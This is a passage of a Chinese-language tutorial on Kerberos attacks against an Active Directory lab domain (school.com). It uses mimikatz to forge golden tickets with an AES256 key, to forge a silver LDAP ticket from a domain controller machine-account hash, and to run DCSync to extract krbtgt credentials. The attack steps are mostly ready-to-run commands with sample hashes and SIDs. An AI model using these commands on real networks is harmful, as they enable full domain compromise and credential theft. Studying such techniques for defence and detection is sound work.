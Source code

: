 **Golden Ticket - 2**

**也可以是使用aes256，也创建不存在的用户**

```text
kerberos::purge
kerberos::golden /domain:school.com /sid:S-1-5-21-2236738896-1661306322-1924668396 /aes256:87d3913d6cb96fef6fcc7a616ee33625bec4b8cffc7a2efa7f177541dd7d3d9c  /user:hello /ticket:2345
kerberos::ptt 2345
```

**Silver Ticket**

假设已经拿到了与控制的权限，并将域控的账户信息记录下来。

![](https://p408.ssl.qhimgs4.com/t018062eae8cdc91360.png)

```text
Username : SCHOOL-DM$
NTLM     : 35493c328494b75aff81d2ffcf173787
```

利用此Hash制作一张LDAP服务的白银票据：

```text
kerberos::golden /admin:linghuchong /domain:school.com /id:1105 /sid:S-1-5-21-2236738896-1661306322-1924668396 /target:School-DM.school.com /rc4:35493c328494b75aff81d2ffcf173787 /service:LDAP /ptt
```

![](https://p408.ssl.qhimgs4.com/t01c06408fb6875e3a6.png)

利用此票据从域控的DCSync上请求krbtgt的凭据：

```text
lsadump::dcsync /dc:School-DM.school.com /domain:school.com /user:krbtgt
```

![](https://p408.ssl.qhimgs4.com/t017f37279705d3c7dc.png)

有了krbtgt的凭据，再进行黄金票据攻击即可。

**经测试，请求LDAP需新打开一个mimikztz窗口**

